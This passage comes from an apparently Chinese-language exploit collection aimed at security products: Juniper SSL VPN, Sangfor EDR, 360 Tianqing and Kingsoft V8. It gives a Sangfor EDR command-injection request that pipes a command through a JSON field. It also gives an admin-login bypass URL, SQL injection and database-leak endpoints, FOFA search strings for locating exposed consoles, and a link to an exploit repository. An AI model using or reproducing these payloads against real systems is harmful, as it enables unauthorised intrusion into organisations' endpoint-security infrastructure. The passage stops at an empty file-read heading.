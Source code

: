 #### Juniper SSL VPN 

- [Juniper SSLVPN / JunOS RCE and Multiple Vulnerabilities](https://octagon.net/blog/2022/10/28/juniper-sslvpn-junos-rce-and-multiple-vulnerabilities/)

## 三、终端响应与检测

### 0x01 EDR/杀软

#### 深信服 EDR

##### 命令执行1

exp：https://github.com/BH2UOL/sangfor-edr-exploit

##### 命令执行2

```
POST /api/edr/sangforinter/v2/cssp/slog_client?token=eyJtZDUiOnRydWV9

{"params":"w=123\"'1234123'\"|命令"}
```

##### 后台任意用户登录

```
xxx.xxx.xxx.xxx/ui/login.php?user=admin
```

#### 360天擎

FOFA：

```
title="360天擎"
```

##### 前台SQL注入

```
/api/dp/rptsvcsyncpoint?ccid=1
```

##### 数据库信息泄露

```
http://x.x.x.x/api/dbstat/gettablessize
```

#### 金山 V8 终端安全系统

FOFA：

```
title="在线安装-V8+终端安全系统Web控制台"
```

##### 任意文件读取

